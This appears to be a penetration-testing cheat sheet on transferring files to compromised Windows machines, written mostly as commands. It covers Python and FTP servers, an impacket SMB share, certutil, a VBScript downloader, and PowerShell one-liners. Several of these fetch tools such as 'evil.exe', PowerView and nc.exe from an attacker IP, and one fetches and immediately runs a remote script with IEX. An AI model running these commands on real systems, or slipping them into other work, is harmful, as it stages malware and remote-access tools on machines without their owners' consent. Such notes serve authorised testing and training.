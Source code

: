 - - -
### Doggy : 
Link : https://github.com/sc0tfree/updog   →  replacement for Python's `SimpleHTTPServer` 

**Serve from your current directory:** 
```sh
updog
```

**Serve from your current directory:**
```sh
updog -d /another/directory
```

**Serve from port you want:**
```sh
updog -p 1234
```
<br>

- - -
### ICMP-File-Transfer :  ( PYTHON2 )
[https://github.com/Vidimensional/Icmp-File-Transfer](https://github.com/Vidimensional/Icmp-File-Transfer)


```sh
icmp.py recv <destination file>

icmp.py send <file to transfer> <remote address>
```
<br>

- - -
### Python3 web-server : 

```sh
sudo pyhton3 -m http.server 80

Invoke-WebRequest  “http://<our_IP>/PowerView.ps1”  -OutFile “C:\temp\PowerView.ps1”
```
<br>

- - -
###  Python2 web-server : 

```sh
sudo python -m SimpleHTTPServer 80 

Invoke-WebRequest  “http://<our_IP>/PowerView.ps1”  -OutFile “C:\temp\PowerView.ps1”
```

- - -

### Downloading in windows : 

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')


powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')


certutil -urlcache -split -f "http://OUR_IP:80/file" [OUTPUT_FILE]

```
<br>

- - -
### FTP : 

```sh
pip install pyftpdlib
python -m pyftpdlib -p 21 -w
```

```powershell
echo open ip-addr > ftp.txt
echo USER ftp >> ftp.txt
echo password >> ftp.txt
echo binary >> ftp.txt
echo GET file.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```
<br>

- - -
### SMB :

```sh
python3 /usr/share/doc/python-impacket/examples/smbserver.py share_name dir_to_share
```

```powershell
net view \\OUR_IP
dir \\OUR_IP\share_name
copy \\OUR_IP\share_name\file output_file
```

**If You are Administrator** : 
run powershell as adminstrator.

```powershell
Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All

Y  <Press_Enter>
```
<br>

- - -

### VBScript : 

```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

After that run this command

```sh
cscript /nologo wget.vbs http://10.8.0.239/nc.exe nc.exe
```



